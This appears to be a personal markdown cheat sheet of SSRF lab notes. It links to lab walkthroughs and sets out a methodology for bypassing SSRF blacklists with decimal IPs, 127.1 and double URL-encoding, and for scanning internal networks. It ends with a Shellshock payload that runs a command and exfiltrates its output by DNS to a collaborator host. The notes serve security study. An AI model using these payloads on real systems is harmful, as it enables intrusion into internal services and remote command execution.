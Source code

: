 # SSRF - CHEATSHEET + LABS

## Key terms

```bash
loopback network interface
```

## Walkthrough - Most Important Labs

- [SSRF via arbitraty host + EXTRA lab: absolute path](../Host-Header-Injection/SSRF-via-arbitraryhost-and-absolute-path.md)

- [SSRF-via-host-validation-bypass-via-connection-state-attack](../Host-Header-Injection/SSRF-via-host-validation-bypass-via-connection-state-attack.md) ❗

- [3]()

- [4]()


## Methodology

```bash
- Server send any http request? -> SSRF
	  -> localhost/foo -> blacklisted?
					   -> send in decimal -> https://www.ipaddressguide.com/ip
					   -> 127.1 = 127.0.0.1
					   -> 127.255.255.255
						   -> /foo -> url encode all characters x2 times, example ->   http://127.1/%2561%2564%256d%2569%256e
		
	  -> Intruder x.x.x.x:xxxxx/foo to scan internal network
- Switch protocol (http/https)	  
- Search open redirect -> in url?
- Refer to our server -> User Agent? -> shellshock
- XML? -> try XXE  

```

## Cheat Sheet

```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN```
```